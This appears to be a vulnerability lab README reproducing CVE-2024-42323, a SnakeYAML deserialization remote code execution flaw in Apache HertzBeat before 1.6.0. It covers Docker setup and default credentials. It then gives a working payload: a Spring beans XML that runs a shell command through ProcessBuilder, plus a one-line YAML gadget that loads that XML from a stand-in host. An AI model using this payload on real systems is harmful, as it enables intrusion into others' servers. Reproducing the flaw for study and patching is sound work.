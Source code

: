 # Apache HertzBeat SnakeYaml Deserialization Remote Code Execution (CVE-2024-42323)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HertzBeat is an open-source real-time monitoring and alarm tool that supports monitoring of operating systems, middleware, databases, and more through its web interface.

In versions prior to 1.6.0, HertzBeat uses a vulnerable version of SnakeYAML library for parsing YAML files. When authenticated users import new monitoring types through the `/api/monitors/import` or `/api/alert/defines/import` APIs, they can provide specially crafted YAML content that triggers deserialization of untrusted data, potentially leading to remote code execution on the target system.

References:

- <https://forum.butian.net/article/612>
- <https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx>
- <https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md>

## Environment Setup

Execute the following command to start a vulnerable HertzBeat 1.4.4 instance:

```
docker compose up -d
```

After the service is started, you can access the HertzBeat dashboard at `http://your-ip:1157/dashboard`. The default login credentials are:

- Username: `admin`
- Password: `hertzbeat`

## Vulnerability Reproduction

First, you need to serve a malicious XML file, for example, `http://evil.example.com/spring.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="commandRunner" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>sh</value>
        <value>-c</value>
        <value><![CDATA[touch /tmp/success]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

Then, make a malicious YAML file that contains the following content, which attempts to initialize the Spring context with your malicious XML file when deserialized:

```yaml
!!org.springframework.context.support.ClassPathXmlApplicationContext ["http://evil.example.com/spring.xml"]
```

Log into the HertzBeat dashboard, navigate to any monitor page and locate the import button. The interface allows users to import monitor configurations through YAML files (the filename must end with `.yaml`):

![Locate the import button](1.png)

When the malicious YAML file is imported through the web interface, HertzBeat will attempt to deserialize its contents, triggering the remote command execution:

![Import the malicious YAML file](2.png)

If successful, the payload will execute on the target system. In this example, we can verify the execution by checking for the presence of a newly created file in the container:

![Verify code execution](3.png)
